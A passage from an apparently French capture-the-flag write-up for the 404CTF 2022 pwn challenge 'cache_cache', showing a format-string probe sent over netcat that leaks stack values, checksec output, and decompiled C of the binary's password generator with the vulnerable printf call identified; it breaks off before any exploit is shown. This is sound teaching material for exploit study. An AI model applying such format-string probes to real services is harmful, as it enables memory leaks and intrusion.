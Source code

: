 Le `Bonjour aaaaaaa` fait tout de suite penser à une string format avec une saisie utilisateur qui ne serait pas contrôlée. On peut vite confirmer ça :
```bash
$ nc challenge.404ctf.fr 31946
Veuillez décliner votre identité:
.%08x.%08x.%08x
Bonjour .52a59c60.00000000.004532c7

Quel est votre mot de passe?
toto

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...

```


### Analyse statique

Comme le binaire nous est fournit, on peut regarder ce qu'il se passe ...

```bash
$ checksec cache_cache
[*] '/home/maskott/github/ctf_404_2022/pwn/cache_cache/cache_cache'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Le canary et NX nous informe que ça va être compliqué de jouer avec la stack ... ceci dit, la format string doit nous permettre de lire ou écrire à peut près comme on veut. Reste à savoir quoi / où.

Un petit tour dans le code du binaire (je passe divers allocation et je commente dans le code):

```c
int main(void)

{

  ...

  // le fameux canary
  canary = *(long *)(in_FS_OFFSET + 0x28);

  // un bloc pour générer un mot de passe aléatoire de 0x14 caractères
  // - index random entre 0 et 3
  // - appel à picker() sur un des 4 set de caractères désigné par index
  // - picker() retourne un char random parmis ce set
  i = 0x14;
  c = 'a';
  alph[0] = "1234567890";
  alph[1] = "abcdefghijklmnoqprstuvwyzx";
  alph[2] = "ABCDEFGHIJKLMNOPQRSTUYWVZX";
  alph[3] = "!@#$%^&*(){}[]:<>?,./";
  j = 4;
  seed = time((time_t *)0x0);
  srandom((uint)seed);
  for (; i != 0; i = i + -1) {
    index = rand_lim((int)j + -1);
    c = picker(alph[index]);
    strncat(valid_pass,&c,1);
  }

  // saisie du login
  // la vuln est ici dans le printf(user_name)

```
